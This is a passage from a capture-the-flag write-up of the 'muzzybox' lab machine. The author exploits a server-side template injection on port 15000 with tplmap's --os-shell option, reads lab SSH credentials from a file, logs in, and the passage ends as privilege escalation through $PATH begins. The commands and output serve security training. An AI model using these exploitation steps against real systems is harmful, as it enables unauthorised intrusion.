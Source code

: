 The next challenge is to get root access on the machine by exploiting the <i>ls</i> command.

<center><br>
<img src="/assets/img/uploads/muzzybox/challenge3.png">
</center>

There is a simple web application running at port 15000 which displays the name we provide in the URL. This page is vulnerable to <abbr title="Server Side Template Injection">SSTI</abbr>

<center><br>
<img src="/assets/img/uploads/muzzybox/port15000.png">
</center>

To get a shell on the target machine by exploiting the <abbr title="Server Side Template Injection">SSTI</abbr> Vulnerability, I used a tool named <a href="https://github.com/epinna/tplmap" rel=”nofollow”>tplmap.</a> This is available freely on the Github.

```r
root@kali:~/tplmap# python tplmap.py -u "http://muzzybox:15000/page?name=*" --os-shell

...

posix-linux $ id
uid=1003(webssti) gid=1003(webssti) groups=1003(webssti)
posix-linux $ ls
ssti
posix-linux $ ls ssti
injection.py
no_flag.txt
posix-linux $ cat ssti/no_flag.txt
ssh nsctf iamnsce
```

I used ssh credentials from 'no_flag.txt' to login as user nsctf.

```r
root@kali:~# ssh nsctf@muzzybox
nsctf@muzzybox's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * MicroK8s gets a native Windows installer and command-line integration.

     https://ubuntu.com/blog/microk8s-installers-windows-and-macos
Last login: Thu May 28 22:05:38 2020 from 192.168.1.7
nsctf@muzzy:~$ id
uid=1004(nsctf) gid=1004(nsctf) groups=1004(nsctf)
```
<p align="justify"> Next was the Privilege escalation, I found that the user cannot run any command as root. I remembered from the introduction that the root user was using sudo as well as bash with the ls command. So I thought that the path variables had some role to play in this and read the <b>$PATH</b> variable. </p>

